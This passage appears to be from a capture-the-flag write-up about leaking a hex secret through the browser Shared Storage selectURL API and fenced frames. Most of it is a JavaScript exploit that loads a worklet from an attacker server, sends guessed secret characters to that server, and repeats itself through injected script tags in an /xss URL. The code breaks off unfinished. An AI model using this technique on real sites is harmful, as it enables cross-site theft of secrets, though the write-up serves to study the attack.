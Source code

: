 About the URL Selection, after passed in urls, the selectURL would return the URL with index that return by the worklet. And base on my own testing, I could pass in around 7 urls.

After a while of trials and errors, I came up with this kinda crazy ideas:
```javascript
const alphabet = "0123456789abcdef";
const l = 6;
const count = Math.ceil(alphabet.length / l);
const solve = async () => {
    await sharedStorage.worklet.addModule("SERVER_URL/module.js");

    const truncated_alphabet = alphabet.slice(l * k, l * (k + 1));
    console.log(truncated_alphabet);
    const urls = [
        {
            url: `SERVER_URL/secret?index=${j}${k}0`,
        },
    ];
    for (let i = 0; i < truncated_alphabet.length; i++) {
        urls.push({
            url: `SERVER_URL/secret?secret=${truncated_alphabet[i]}&index=${j}`,
        });
    }
    // console.log(urls);
    sharedStorage
        .selectURL("exploit", urls, {
            resolveToConfig: true,
            data: { index: j, alphabet: truncated_alphabet },
            keepAlive: true,
        })
        .then(
            (config) => {
                if (config) {
                    document.querySelector("#my-frame").config = config;
                }
            },
            (err) => {
                console.error(err);
            }
        );
};

window.onload = () => {
    const frame = document.createElement("fencedframe");
    frame.id = "my-frame";
    document.body.append(frame);
    solve();
    setTimeout(() => {
        if (j >= 16 || k >= count) {
            return;
        }
        fetch(`SERVER_URL/ok?index=${j}`)
            .then((res) => res.text())
            .then((text) => {
                if (text == "OK") {
                    location.href = `/xss?xss=<script>const%20k=0;const%20j=${
                        j + 1
                    }</script><script%20src="SERVER_URL/solve.js"></script>`;
                } else {
                    location.href = `/xss?xss=<script>const%20k=${
                        k + 1
                    };const%20j=${j}</script><script%20src="SERVER_URL/solve.js"></script>`;
                }
            });
```